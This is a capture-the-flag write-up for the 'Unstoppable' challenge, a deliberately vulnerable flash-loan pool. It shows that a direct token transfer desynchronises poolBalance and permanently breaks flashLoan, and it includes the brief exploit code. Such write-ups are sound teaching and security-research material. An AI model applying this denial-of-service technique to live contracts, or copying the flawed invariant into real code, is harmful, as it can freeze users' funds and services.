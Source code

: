 # Challenge 1 — Unstoppable

## Description

In the lending pool `UnstoppableLender`, offering flash loans for free, there are two functions:

- `depositTokens` to transfer tokens from sender to the pool.
-  `flashLoan` function to initiate the flash loan.

In the `flashLoan` function, the process is:

1. Check that the `borrowAmount` is at least 1 token:
	```solidity
	require(borrowAmount >  0, "Must borrow at least one token");
	```

2. Get the balance of the pool in `damnValuableToken` token:
	```solidity
	uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
	require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
	```

3. Verify that the obtained balance is equal to the global variable `poolBalance`
	```solidity
	assert(poolBalance == balanceBefore);
	```

## Vulnerability

The variable `poolBalance` is updated only if the `depositTokens` is used to deposit tokens.
Therefore, if tokens are deposited to the contract address via the `transfer` method directly, then `poolBalance` will not be updated.
The balance of the contract having increased anyway, the value `balanceBefore` will become different from `poolBalance` and the test `assert(poolBalance == balanceBefore)` will not pass.

## How to exploit?
- Initial token balance of the pool is 1000000.
- Initial token balance of the attacker is 100.
- Tokens are transferred from the attacker to the pool via:
	```solidity
	await  this.token.transfer(this.pool.address, INITIAL_ATTACKER_BALANCE, {
	from:  attacker,
	});
	```
- The call to `flashLoan` now reverts
	```solidity
	await this.receiverContract.executeFlashLoan(10, { from:  someUser })
	```
